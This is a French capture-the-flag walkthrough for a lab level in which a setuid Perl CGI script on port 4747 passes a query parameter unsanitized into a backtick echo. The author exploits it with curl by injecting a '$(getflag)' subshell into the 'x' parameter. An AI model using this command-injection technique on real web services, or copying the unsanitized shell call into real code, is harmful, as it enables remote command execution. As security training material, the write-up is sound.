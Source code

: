 # Level04

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

On trouve un script perl avec setuid et setgid


```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Un script perl qui utilise CGI, donc servi par un serveur web, sur le port 4747 comme indiqué en commentaire

Testons avec curl

	$ curl -I 192.168.1.27:4747
	HTTP/1.1 200 OK
	Date: Thu, 28 Nov 2019 11:04:23 GMT
	Server: Apache/2.2.22 (Ubuntu)
	Vary: Accept-Encoding
	Content-Length: 1
	Content-Type: text/html

Version commentée du script

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
# fonction qui affiche son argument via echo
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
# l'argument de la fonction x est le parametre nomme "x"
x(param("x"));
```

Le script affiche la valeur du parametre "x" de la requete

	$ curl 192.168.1.27:4747?x=coucou
	coucou

On peut injecter un subshell pour que echo affiche son resultat

	$ curl '192.168.1.27:4747?x=$(getflag)'
	Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXX
